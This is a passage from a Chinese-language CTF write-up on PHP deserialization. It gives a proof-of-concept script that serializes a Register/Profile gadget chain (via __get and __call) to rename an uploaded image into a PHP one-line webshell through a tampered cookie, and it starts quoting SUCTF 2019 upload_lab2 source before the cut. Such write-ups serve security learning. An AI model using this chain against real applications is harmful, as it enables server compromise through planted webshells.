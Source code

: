 这里有一条攻击链

![](/home/cookie/Pictures/blogs/CTF中反序列化问题的学习/１.png)

这条攻击链的重点就来自于`__get()`和`___call()`这两个魔术方法的使用，说实话实在是神奇啊。

`POC`

```php
<?php

namespace app\web\controller;

class Register{
    public $checker;
    public $registed;

    public function __construct()
    {
        $this->checker=new Profile();
    }

}

class Profile{
    public $checker;
    public $filename_tmp = "/var/www/html/public/upload/9e378836316a75e67168068366756335/364be8860e8d72b4358b5e88099a935a.png";
    public $filename = "/var/www/html/public/upload/9e378836316a75e67168068366756335/364be8860e8d72b4358b5e88099a935a.php";
    public $upload_menu = "upload_img";
    public $ext = "1";
    public $img;
    public $except = ["index" => "upload_menu"];
    //$except = array('index'=>'upload_img')
}

$clazz = new Register();

echo base64_encode(serialize($clazz));
?>
```

获得的密文后，我们先上传一个一句话木马图，然后重新登录，抓包修改cookie为我们的payload，登录后，刷新，访问就能看到我们的木马图被改成了一句话木马.......可我getshell后，死活找不到flag......

### 0002 `SUCTF2019 upload_lab2`

这道题它给了源码，这道题按作者的思路来，这里的考点还蛮有意思的.

[SUCTF 2019 出题笔记 & phar 反序列化的一些拓展](https://xz.aliyun.com/t/6057#toc-6)

```php
#index.php
<?php
include 'class.php';

$userdir = "upload/" . md5($_SERVER["REMOTE_ADDR"]);
if (!file_exists($userdir)) {
    mkdir($userdir, 0777, true);
}
if (isset($_POST["upload"])) {
    // 允许上传的图片后缀
    $allowedExts = array("gif", "jpeg", "jpg", "png");
    $tmp_name = $_FILES["file"]["tmp_name"];
    $file_name = $_FILES["file"]["name"];
    $temp = explode(".", $file_name);
```